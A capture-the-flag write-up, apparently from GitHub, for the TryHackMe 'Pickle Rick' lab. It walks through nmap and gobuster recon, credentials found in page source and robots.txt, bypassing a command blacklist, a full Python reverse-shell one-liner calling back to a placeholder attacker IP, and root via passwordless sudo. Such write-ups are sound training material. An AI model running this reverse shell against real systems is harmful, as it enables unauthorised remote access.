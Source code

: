 # PICKLE RICK CTF TRYHACKME

# RECON

'Nmap'
nmap -sV -A -T5 <MACHINE_IP>
-Open Ports-

![image](https://user-images.githubusercontent.com/82729808/190850518-7aac9130-039f-4e48-8334-44fa5885b6b4.png)

We got 22 and 80 ports open. Lets move to the web page.
In the source code of the page, we have a username
![image](https://user-images.githubusercontent.com/82729808/190852082-ca41dbe4-7ed2-4bff-ba47-93fd0e9ad1f1.png)


' Gobuster '
![image](https://user-images.githubusercontent.com/82729808/190850795-4be5e958-7fc4-47b2-a422-5b8a9be379c6.png)


 
 Lets look at /robots.txt
 
![image](https://user-images.githubusercontent.com/82729808/190850810-33210e0d-edf9-4579-9d35-e00ae0e92a98.png)

We have this text. And when we look at the login page we understand that its a password

![image](https://user-images.githubusercontent.com/82729808/190850862-700f1c30-6e25-4267-8e02-8c82f4fda116.png)

![image](https://user-images.githubusercontent.com/82729808/190850872-87a9b97d-ff3a-4eb2-9e18-87bfe3062ff9.png)

And we have a command panel. Lets list the files.

![image](https://user-images.githubusercontent.com/82729808/190850884-b388ab7b-e11e-4cea-9f46-ccdc599868e0.png)
 
 When we try to read the files, this happens
 
 ![image](https://user-images.githubusercontent.com/82729808/190850898-a30fb1c1-9b1f-4200-b1ce-53363604c6ae.png)
 
So we have to be creative

![image](https://user-images.githubusercontent.com/82729808/190850911-f0774c25-2fb8-4c05-9a72-27232af40b55.png)

When we use grep and look at the source code, we can see de blacklisted commands
![image](https://user-images.githubusercontent.com/82729808/190850954-fa083d29-5156-4667-bf4b-ae61a1185666.png)

We can use grep again to read the files.

![image](https://user-images.githubusercontent.com/82729808/190851146-2b94f285-69ad-4bb8-8b95-d8cce05d002a.png)

And we've found the first question!

# Explotation

Now we need to get a reverse shell. To do this, we can test if machine has python with the command "python3 -c 'print("I have Python3!")'"

![image](https://user-images.githubusercontent.com/82729808/190851232-c3404331-2d87-45ac-9b88-9e52e441194d.png)

We have python3. Lets copy our reverse shell cheat sheet at  https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR_OPENVPN_IP>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

Before we execute this script we have to start a nc listener.

![image](https://user-images.githubusercontent.com/82729808/190851300-b02a00eb-b643-4476-9644-01d4c14d47b7.png)

![image](https://user-images.githubusercontent.com/82729808/190851454-5cf448aa-8457-45fa-9547-25ff550a1fe3.png)

We have the shell!

Let's check out root privileges
![image](https://user-images.githubusercontent.com/82729808/190851481-f042ace0-e186-4f14-aab1-fb6dd635af5d.png)

We can see that we can switch to root account without a password
![image](https://user-images.githubusercontent.com/82729808/190851565-b0f22bb1-b5d2-4090-8ecd-35b408f0e9f7.png)

We have the 3rd ingredient in root directory and the second one in the home page of ricks account
![image](https://user-images.githubusercontent.com/82729808/190851602-e7871eec-6489-4ea3-9274-2c663a5bb20a.png)

# COMPLETED

